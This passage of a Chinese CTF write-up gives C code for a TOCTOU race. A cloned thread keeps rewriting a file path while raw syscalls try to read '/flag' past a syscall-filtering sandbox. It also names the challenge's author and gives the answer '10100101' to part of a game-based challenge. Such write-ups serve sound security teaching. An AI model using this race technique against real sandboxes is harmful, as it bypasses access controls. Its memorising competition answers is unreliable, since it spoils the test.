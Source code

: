 ```c
char buf[0x80];
volatile char path[0x80];
int done;

int alter_thread() {
  int pos = strlen("/fla");
  while (done == 0) {
    path[pos] = 'w';
    path[pos] = 'g';
  }
}
int main() {
  strcpy(path, "/flag");

  void *stack = malloc(STACK); // Stack for new process
  if (clone(&alter_thread, (char *)stack + STACK, CLONE_VM, 0) < 0) {
    perror("clone Failed");
  }

  while (1) {
    int fd = system_call(2, (long)path, O_RDONLY, 0);
    int rd = system_call(0, fd, (long)buf, 0x80);
    if (rd > 0 && buf[4] != ' ') {
      printf("flag is %s\n", buf);
      done = 1;
      return 0;
    }
    system_call(3, fd, 0, 0);
  }
}
```

<article class="message is-primary" style="font-size:1em">
<div class="message-body">
BONUS：延续开盒精神，找到出题人身份。

答案：<span class="heimu"> 搜索代码片段可以找到 [greenhook](https://www.taoky.moe/greenhook/greenhook/index.html)，作者是 taoky。diff 一下代码甚至能看到题目中可以删除了原代码关于 TOCTOU 攻击的警告 </span>
</div>
</article>

---

## 异星歧途

在 GeekGame 出了道 Minecraft 题，一堆选手叫苦连天。现在颇有点理解了。

研究了下这个游戏和地图，发现这大概是个体系很完善的塔防游戏，以及这个地图里面会有一些逻辑处理器去跑类汇编代码，那么只需要去研究代码就可以了。

### Part 1

简单条件判断。答案是 `10100101`。
